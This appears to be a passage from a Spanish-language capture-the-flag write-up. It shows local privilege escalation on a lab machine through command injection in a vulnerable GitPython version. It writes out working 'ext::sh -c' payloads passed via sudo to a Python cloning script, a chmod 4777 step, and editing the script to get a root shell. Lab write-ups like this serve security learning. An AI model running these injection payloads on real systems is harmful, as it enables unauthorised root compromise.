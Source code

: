 Vemos que es la 3.1.29, según esa web, es vulnerable así que vamos a probarlo. Si nos fijamos en la PoC que propone, vemos que es muy parecido al script de python de la máquina:

![image](../zimages/Pasted_image_20241026161151.png)

Parece que lo que hace es poner `ext::sh -c touch% /tmp/pwned` en el parámetro que nos manda poner la máquina víctima "url_to_clone". Vamos a ejecutarlo:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /home/prod/samucrow'
```

Y vemos que, efectivamente nos crea el archivo en el directorio, pero nos lo crea como root:

![image](../zimages/Pasted_image_20241026162334.png)

Es decir, tenemos ejecución remota de comandos, vamos a probar dandole permisos de escritura al mismo script en python al que tenemos acceso como root:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% 4777% /opt/internal_apps/clone_changes/clone_prod_change.py"
```

Ahora si hacemos un  `ls -l`, vemos que tenemos el permiso, vamos a editar el script para que nos de una shell como root:

![image](../zimages/Pasted_image_20241026164328.png)

Ahora lo ejecutamos, pero siempre poniendo algo como parámetro ya que no nos deja ejecutarlo  si no, se puede poner cualquier palabra:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py rooted¬¬
```

Ya somos root:

![image](../zimages/Pasted_image_20241026164550.png)
